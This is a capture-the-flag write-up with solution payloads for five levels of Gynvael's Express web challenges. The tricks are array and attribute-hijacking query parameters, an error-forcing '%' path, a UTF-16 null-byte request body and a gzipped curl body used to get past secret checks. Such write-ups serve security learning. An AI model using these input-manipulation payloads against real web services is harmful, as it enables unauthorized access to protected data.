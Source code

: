 # Info
* https://twitter.com/gynvael?lang=en
* http://challenges.gynvael.stream:5001-10

# Level 1

Solution: Make the `secret` param an array

```
http://challenges.gynvael.stream:5001/?secret[]=GIVEmeTHEflagNOW
```

# Level 2

Solution: Hijack attributes of query parameter
```
curl 'http://challenges.gynvael.stream:5002/?X\[length\]=801&X\[toString\]=1
```

# Level 3
(In this chal the flag was in the file path)
Solution: Force express to throw an error by using `%` as the param

```
http://challenges.gynvael.stream:5003/%
```

# Level 4

Solution: Encode the required keyword in `utf-16` encoding (Each letter takes 2 bytes in this case). Start each letter with a null value (%00). The way i did this was by editing my request in Burp (hex view) to insert null bytes. Also be sure to set the correct content-type!

```
POST /flag HTTP/1.1
Host: pwnd.top:5004
Content-type: text/plain;charset=utf-16
Content-Length: 26

\0S\0h\0o\0w\0M\0e\0T\0h\0e\0F\0l\0a\0g # Each \0 is set in the HEX view of repeater tab
```

# Level 5

Solution: Similiar to level 4 but a bit harder. Have to abuse the fact that querystring (body-parser urlencoded(extended:false)) will auto un-gzip a payload. This is tricky if using Burp as there's no easy way to send a gzipped payload. This is one of Burp's biggest downfalls.

```
echo -n 'secret=ShowMeTheFlag' | gzip|curl challenges.gynvael.stream:5005/flag -H 'Content-Encoding: gzip' --data-binary @-

```
